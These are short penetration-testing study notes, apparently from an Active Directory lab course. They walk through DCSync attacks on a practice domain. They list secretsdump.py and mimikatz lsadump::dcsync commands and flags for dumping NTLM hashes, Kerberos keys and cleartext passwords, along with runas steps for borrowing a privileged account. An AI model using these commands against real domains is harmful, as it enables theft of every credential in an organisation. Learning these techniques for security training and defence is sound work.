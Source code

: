 #### DCSync attack with secretsdump

``` bash
$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@<DC_IP>
$ ls inlanefreight_hashes*

inlanefreight_hashes.ntds  inlanefreight_hashes.ntds.cleartext  inlanefreight_hashes.ntds.kerberos
```

- `-just-dc` flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.
- `-just-dc-ntlm` flag if we only want NTLM hashes.
- `-just-dc-user INLANEFREIGHT/adunn` to only extract data for a specific user.
- `-pwd-last-set` to see when each account's password was last changed
- `-user-status` flag to check and see if a user is disabled.

`secretsdump.py` will decrypt any passwords stored using reversible encryption while dumping the NTDS file either as a Domain Admin or using an attack such as DCSync.

---
#### DCSync attack with mimikatz

Using Mimikatz, we must target a specific user.
Here we will target the built-in administrator account.

Mimikatz must be ran in the context of the user who has DCSync privileges. We can utilize `runas.exe` to accomplish this:
``` CMD
C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
```

From the newly spawned powershell session, we can perform the attack:

``` PowerShell
PS C:\> .\mimikatz.exe
mimikatz # privilege::debug
# Dump one user hash
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
# Dump all hashes to a CSV
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /all /csv
```
